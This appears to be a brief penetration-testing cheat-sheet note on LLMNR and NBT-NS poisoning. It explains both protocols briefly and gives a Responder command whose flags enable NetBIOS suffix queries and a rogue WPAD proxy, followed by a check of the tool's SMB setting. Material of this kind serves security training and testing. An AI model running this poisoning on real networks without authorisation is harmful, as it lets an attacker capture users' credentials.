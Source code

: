 # LLMNR Poisoning Overview

Link-Local Multicast Name Resolution(LLMNR) and NetBIOS Name Service (NBT-NS) are Windows domain services
Alternatives for host identification
LLMNR allow same network hosts to use name resolution for other hosts.
NBT-NS utilised to identify systems on a network by NetBIOS name.


## Responder
For more: [[Responder-Cheatsheet]]

```bash
sudo reponder -I $IP -rdw -v 

-r	# r enables netbios wredir suffix queries
-d	# d enables netbios domain suffix queries
-w	# w starts the wpad rogue proxy server
```

## Troubleshooting
cat /etc/responder/Responder.conf | grep SMB
SMB = On
